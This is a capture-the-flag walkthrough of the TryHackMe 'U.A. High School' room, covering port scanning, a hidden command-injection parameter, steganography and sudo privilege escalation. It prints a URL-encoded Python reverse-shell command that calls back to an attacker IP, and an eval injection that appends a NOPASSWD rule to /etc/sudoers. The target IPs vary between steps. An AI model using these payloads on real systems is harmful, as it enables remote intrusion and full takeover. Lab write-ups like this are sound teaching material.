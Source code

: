 ```yaml
---
title: High School - TryHackMe
date: 2025-03-05
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="U.A. High School"
    roomIcon="/ctf/tryhackme/high-school/icon-room.png"
    roomLink="https://tryhackme.com/room/yueiua"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge description

Join us in the mission to protect the digital world of superheroes! U.A., the most renowned Superhero Academy, is
looking for a superhero to test the security of our new site.

Our site is a reflection of our school values, designed by our engineers with incredible Quirks. We have gone to great
lengths to create a secure platform that reflects the exceptional education of the U.A.

## Challenge overview

In this challenge, we are tasked with compromising the **U.A. High School** web server and escalating our privileges to
obtain the root flag. The target is a web server running Apache, and we will perform enumeration, identify
vulnerabilities, gain initial access, and escalate privileges to root.

## Enumeration

### Nmap

We start by scanning the target for open ports and services:

```bash
nmap -sC -sV -v -p- -oN high-school.nmap 10.10.25.111
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 582fec23baa9fe818a8e2dd89121d276 (RSA)
|   256 9df263fd7cf32462478afb08b229e2b4 (ECDSA)
|_  256 62d8f8c9600f701f6e11aba03379b55d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports:

- **22/tcp** (SSH): OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
- **80/tcp** (HTTP): Apache httpd 2.4.41

### Web Enumeration

#### Discovering the Web Application

Visiting `http://10.10.25.111/` presents the **U.A. High School** homepage.

![U.A. High School home](/ctf/tryhackme/high-school/home-page.png)

The website contains multiple pages:

- **Home**: The main page of the website.
- **About**: Information about the academy.
- **Courses**: List of courses offered.
- **Admissions**: Details about the admission process.
- **Contact us**: Contact form to reach the academy.

Inspecting the source code reveals references to an `assets` directory:

```html
<link rel="stylesheet" href="assets/styles.css">
```

The `assets` directory also contains an `images` folder:

```html
background-image: url(images/yuei.jpg);
```

Attempting to access `http://10.10.25.111/assets/` results in an empty page, which is unusual because directories
typically return an error message when directory listing is disabled.

Adding `index.php` to the URL still results in an empty page:

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page.png)

#### Identifying Command Injection

Using `dirsearch` to brute-force file paths:

```bash
dirbsearch -u http://10.10.25.53/assets/index.php
```

We discover a `?cmd` parameter that allows command execution.

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-cmd.png)

However, the output is encoded in Base64. Decoding reveals:

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-base64.png)

We now have remote command execution.

### Obtaining a Reverse Shell

```bash
curl -s http://10.10.23.54/assets/index.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.11.125.246%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

We successfully obtain a reverse shell as `www-data`.

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-reverse-shell.png)

## Privilege Escalation

### Finding Credentials

Exploring `/var/www/`, we find a `Hide_Content` directory containing `passphrase.txt`:

![U.A. High School assets](/ctf/tryhackme/high-school/var-www-hide-content.png)

Decoding the Base64 content reveals:

![U.A. High School assets](/ctf/tryhackme/high-school/var-www-hide-content-passphrase.png)

We got the passphrase `AllmightForEver!!!`.

### Steganography on `oneforall.jpg`

A new image, `oneforall.jpg`, is found in `/var/www/images/`.

![U.A. High School assets](/ctf/tryhackme/high-school/images-folder.png)

The image could not load.

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall.png)

Using `steghide` to extract the hidden data, we see we need to enter a passphrase, using the passphrase we found
earlier, but we got an error message:

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall-steghide.png)

The `steghide: the file format of the file "oneforall.jpg" is not supported.` error message is interesting because it
means that the file is not a `jpg` file. Using `xxd` to see the file header, we see that the file is a `PNG` file:

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall-xxd.png)

Using `hexedit` to change the file from `89 50 4E 47 0D 0A 1A 0A` to `FF D8 FF E0 00 10 4A 46`, we can now see the
image:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall.png)

We can extract the hidden data using `steghide`:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall-steghide.png)

Looking a the `cred.txt` file we got the credentials for the `deku` user:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall-cred.png)

We can now login as `deku` and get the user flag:

```bash
$ ssh deku@10.10.25.53
deku@myheroacademia:~$ cat user.txt
THM{USER_FLAG}
```

## Privilege Escalation to Root

Checking sudo permissions:

```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku:
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

The script accepts user input and executes it with `eval`, making it vulnerable to command injection.

```bash
deku@myheroacademia:~$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

We inject a command to grant sudo access:

```bash
deku@myheroacademia:/opt/NewComponent$ sudo ./feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudoers
It is This:
Feedback successfully saved.
deku@myheroacademia:/opt/NewComponent$ sudo cat /root/root.txt
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/

THM{ROOT_FLAG}
```